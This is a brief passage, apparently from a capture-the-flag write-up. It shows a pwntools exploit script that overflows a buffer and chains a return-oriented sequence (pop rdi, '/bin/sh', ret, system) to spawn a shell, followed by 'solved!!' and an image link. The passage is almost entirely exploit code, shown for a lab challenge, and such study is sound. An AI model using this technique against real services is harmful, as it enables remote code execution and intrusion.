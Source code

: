 ```py=
ret = pop_rdi + 1
payload = b'A' * (0x70 + 0x8) + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)
r.sendlineafter('>> ', '3')
r.sendlineafter('Leave a message: ', payload)

r.interactive()
```

solved！！

![image](https://hackmd.io/_uploads/HJq61RTTR.png)
